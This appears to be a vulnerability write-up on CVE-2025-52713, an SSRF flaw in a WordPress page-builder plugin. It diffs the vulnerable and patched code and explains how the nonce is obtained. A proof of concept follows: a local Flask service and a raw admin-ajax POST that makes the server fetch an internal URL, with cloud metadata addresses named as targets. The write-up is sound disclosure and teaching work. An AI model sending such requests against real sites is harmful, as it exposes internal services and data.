



<!--more-->

## CVE & Basic Info

A **Server-Side Request Forgery (SSRF)** vulnerability in the **BoldGrid Post and Page Builder by BoldGrid – Visual Drag and Drop Editor** plugin allows an attacker to perform **forged requests from the server**.
This issue affects the **Post and Page Builder by BoldGrid – Visual Drag and Drop Editor** plugin from an unknown version up to **1.27.8**.

* **CVE ID**: [CVE-2025-52713](https://www.cve.org/CVERecord?id=CVE-2025-52713)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 1.27.8
* **Patched Versions**: 1.27.9
* **CVSS severity**: Low (6.4)
* **Required Privilege**: Contributor
* **Product**: [WordPress Post and Page Builder by BoldGrid – Visual Drag and Drop Editor Plugin](https://wordpress.org/plugins/post-and-page-builder/advanced/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Post and Page Builder by BoldGrid – Visual Drag and Drop Editor**: **1.27.8** (vulnerable) and **1.27.9** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to inspect and compare differences between the two versions.

## Analysis

### Patch diff

```php {title="class-boldgrid-editor-ajax.php - v1.27.8" hl_lines=[2,4,8,9,10,11,12,13,16,17]}
public function get_redirect_url() {
    $urls = ! empty( $_POST['urls'] ) ? $_POST['urls'] : null;

    self::validate_nonce( 'image' );
    $unsplash_404 = 'https://images.unsplash.com/photo-1446704477871-62a4972035cd?fit=crop&fm=jpg&h=800&q=50&w=1200';

    $redirectUrls = array();
    foreach( $urls as $url ) {
        $response = wp_remote_head( $url );
        $headers = is_array( $response ) && ! empty( $response['headers'] ) ? $response['headers']->getAll() : array();
        $redirectUrl = ! empty( $headers['location'] ) ? $headers['location'] : false;
        $redirectUrl = ( $redirectUrl !== $unsplash_404 ) ? $redirectUrl : false;
        $redirectUrls[ $url ] = $redirectUrl;
    }

    if ( ! empty( $redirectUrls ) ) {
        wp_send_json_success( $redirectUrls );
    } else {
        status_header( 400 );
        wp_send_json_error();
    }
}
```

In the **vulnerable version**, `get_redirect_url()` reads an array of URLs from `$_POST['urls']`, then iterates each element and issues a request via `wp_remote_head($url)` **without validating or sanitizing the input**. This allows an attacker to supply arbitrary URLs so the server will request internal addresses like `127.0.0.1` or `169.254.169.254`, leading to **SSRF**. Also, because there are no `timeout` or `redirection` limits, the function can be abused to cause **hangs or denial-of-service (DoS)**.

```php {title="class-boldgrid-editor-ajax.php - v1.27.9" hl_lines=[2,4,7,8,9,10,11,12,13,14,15,18,19]}
public function get_redirect_url() {
    $urls = ! empty( $_POST['urls'] ) ? $_POST['urls'] : null;

    self::validate_nonce( 'image' );
    $unsplash_404 = 'https://images.unsplash.com/photo-1446704477871-62a4972035cd?fit=crop&fm=jpg&h=800&q=50&w=1200';
    $redirectUrls = array();
    foreach( $urls as $url ) {
        $response = wp_safe_remote_head( esc_url_raw( $url ), array(
            'timeout'     => 5,
            'redirection' => 5,
        ) );
        $headers = is_array( $response ) && ! empty( $response['headers'] ) ? $response['headers']->getAll() : array();
        $redirectUrl = ! empty( $headers['location'] ) ? $headers['location'] : false;
        $redirectUrl = ( $redirectUrl !== $unsplash_404 ) ? $redirectUrl : false;
        $redirectUrls[ $url ] = $redirectUrl;
    }

    if ( ! empty( $redirectUrls ) ) {
        wp_send_json_success( $redirectUrls );
    } else {
        status_header( 400 );
        wp_send_json_error();
    }
}
```

The patch replaces `wp_remote_head()` with `wp_safe_remote_head()` together with `esc_url_raw()` to sanitize and allow only valid URLs, and adds protective parameters `timeout => 5` and `redirection => 5`. This prevents requests to internal/loopback addresses and reduces performance-related risks.

### Vulnerable Code

The call `self::validate_nonce( 'image' );` is used to **verify a nonce** — WordPress's mechanism to prevent **CSRF (Cross-Site Request Forgery)**.

```php {title="class-boldgrid-editor-ajax.php - v1.27.8" hl_lines=[2,3,5]}
public static function validate_nonce( $name ) {
    $nonce = ! empty( $_POST[ self::$nonces[ $name ] ] ) ?
        $_POST[ self::$nonces[ $name ] ] : null;

    $valid = wp_verify_nonce( $nonce, self::$nonces[ $name ] );

    if ( ! $valid ) {
        status_header( 401 );
        wp_send_json_error();
    }
}
```

The plugin defines a static `$nonces` array that maps actions to nonce keys:

```php {title="class-boldgrid-editor-ajax.php - v1.27.8" hl_lines=[2]}
protected static $nonces = array(
    'image' => 'boldgrid_gridblock_image_ajax_nonce',
    'setup' => 'boldgrid_editor_setup',
    'gridblock_save' => 'boldgrid_editor_gridblock_save',
);
```

When `validate_nonce('image')` is called, it:

1. Reads the nonce value from POST using the key `boldgrid_gridblock_image_ajax_nonce`.
2. Verifies it via `wp_verify_nonce()`.
3. If invalid, returns **HTTP 401 Unauthorized** and halts processing with `wp_send_json_error()`.


When searching for `boldgrid_gridblock_image_ajax_nonce` in the plugin source, we find it is assigned from the JavaScript variable `BoldgridEditor.grid_block_nonce`.



Because this AJAX request is sent from the client, you can obtain the current nonce by opening the browser **Console** and calling:
`BoldgridEditor.grid_block_nonce` when creating a post with this plugin.




`get_redirect_url()` is registered as a callback for the action hook:

```php
add_action( 'wp_ajax_boldgrid_redirect_url', array( $boldgrid_editor_ajax, 'get_redirect_url' ) );
```

This means when a client sends an AJAX request to `/wp-admin/admin-ajax.php?action=boldgrid_redirect_url`, `get_redirect_url()` will be invoked.

### Flow


graph TD
A["Client POST /wp-admin/admin-ajax.php?action=boldgrid_redirect_url + $_POST['urls']"] --> B["wp_ajax_boldgrid_redirect_url → get_redirect_url()"]
B --> C["self::validate_nonce('image')"]
C --> D["read $_POST['urls']"]
D --> E["foreach $url"]
E --> F["wp_remote_head($url)  ← SSRF sink"]
F --> G["extract headers['location'] → $redirectUrls"]
G --> H{"$redirectUrls not empty?"}
H -- Yes --> I["wp_send_json_success($redirectUrls)"]
H -- No --> J["wp_send_json_error()"]


## Exploit

### Local Server

Create a simple local service with Python:

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request with the URL pointing to the local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C07a62e731a6142aa7b15555fdd5e1cbdd114cffb4a041ba0ecd9394c8319bb3f; wp-settings-time-2=1761643645; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C450b8e4bb8ebb335d435b94645ae098cee383a09a6e129efbdec8a2348deeda0
...

action=boldgrid_redirect_url&urls[0]=http://localhost:8001/metadata&boldgrid_gridblock_image_ajax_nonce=482dbb1ed2
```

**Result**:



## Conclusion

The vulnerability **CVE-2025-52713** stems from `get_redirect_url()` in the **BoldGrid Post and Page Builder** plugin (≤ 1.27.8) issuing HTTP requests to user-supplied URLs without validation or restrictions, resulting in **SSRF**. An attacker with **Contributor** privileges and a valid nonce can force the server to request internal addresses. The patch (1.27.9) fixes this by using `esc_url_raw()` and `wp_safe_remote_head()` with `timeout` and `redirection` limits to prevent unsafe requests.

## Key takeaways

* Cause: missing validation and sanitization of user-provided URLs.
* Nonce only protects against CSRF, not SSRF.
* Impact: **Low (6.4)** but may lead to internal data disclosure.
* Update to **v1.27.9** to remediate.
* Development best practice: always use safe APIs (`wp_safe_remote_*`) and sanitize URLs with `esc_url_raw()`.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Post and Page Builder by BoldGrid – Visual Drag and Drop Editor Plugin <= 1.27.8 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/post-and-page-builder/vulnerability/wordpress-post-and-page-builder-by-boldgrid-visual-drag-and-drop-editor-plugin-1-27-8-server-side-request-forgery-ssrf-vulnerability)
